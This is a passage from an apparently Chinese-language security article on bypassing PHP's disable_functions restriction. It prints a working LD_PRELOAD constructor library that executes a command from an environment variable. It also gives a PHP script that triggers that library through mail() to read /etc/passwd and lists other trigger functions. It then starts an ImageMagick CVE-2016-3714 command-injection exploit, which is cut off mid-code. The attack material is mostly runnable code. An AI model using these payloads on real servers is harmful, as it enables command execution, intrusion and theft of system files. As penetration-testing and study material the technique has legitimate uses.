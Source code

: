 ```
#include &lt;stdlib.h&gt;
__attribute__((constructor)) void j0k3r()`{`
    unsetenv("LD_PRELOAD");
    if (getenv("cmd") != NULL)`{`
        system(getenv("cmd"));
    `}`else`{`
        system("echo 'no cmd' &gt; /tmp/cmd.output");
    `}`
`}`
```

​ 利用 GNU C 中的特殊语法 `__attribute__ ((attribute-list))`，当参数为 constructor 时就可以在加载共享库时运行，通常是在程序启动过程中，因为带有”构造函数”属性的函数将在 main() 函数之前被执行，类似的，若是换成 destructor 参数，则该函数会在 main() 函数执行之后或者 exit() 被调用后被自动执行

也就是说在 PHP 运行过程中只要有新程序启动，在我们加载恶意动态链接库的条件下，便可以执行 .so 中的恶意代码

比如 PHP 中经典的 mail() 函数，看看当 PHP 执行 mail() 函数的时候有没有执行程序或者启动新进程

`strace -f php -r "mail('','','','');" 2&gt;&amp;1 | grep -E "execve|fork|vfork"`

[![](https://p5.ssl.qhimg.com/t01429a5730c5230ba2.png)](https://p5.ssl.qhimg.com/t01429a5730c5230ba2.png)

​ 可以明显发现 mai() 函数使用 execve 启动了 sendmail，接着可以使用 readelf -Ws 或者 strace 命令查看 sendmail 程序的系统函数调用情况

在 PHP 中使用 putenv() 函数设置环境变量, 仅存活于当前请求期间。在请求结束时环境会恢复到初始状态

```
&lt;?php
putenv("cmd=cat /etc/passwd");
putenv("LD_PRELOAD=./bad.so");
mail('','','','');
```

运行该 PHP 文件即可成功执行命令，就算没有安装 sendmail 也能成功利用

[![](https://p2.ssl.qhimg.com/t0145b9403f1a7638ce.png)](https://p2.ssl.qhimg.com/t0145b9403f1a7638ce.png)

如果 mail() 函数无法使用，也可以使用 `error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("[1@a.com](mailto:1@a.com)","0","1","2","3")`（如果 PHP 开启了 imap 模块）

如果 PHP 安装了 imagick 模块，则还可以使用 Imagick，其在遇到 MPEG format 的时候，会调用 ffmpeg 进程来处理，比如使用 `new Imagick('1.mp4')`

文章后面有一部分关于确定这类使用 execve 系统调用的 php 函数的 Fuzz 方法

### <a class="reference-link" name="3.%20ImageMagick%20bypass%20disable_functions"></a>3. ImageMagick bypass disable_functions

利用 ImageMagick 命令执行漏洞（CVE-2016–3714）

```
&lt;?php
echo "Disable Functions: " . ini_get('disable_functions') . "n";

function AAAA()`{`
$command = 'curl 127.0.0.1:7777';

$exploit = &lt;&lt;&lt;EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb-&gt;readImage('KKKK.mvg');
```
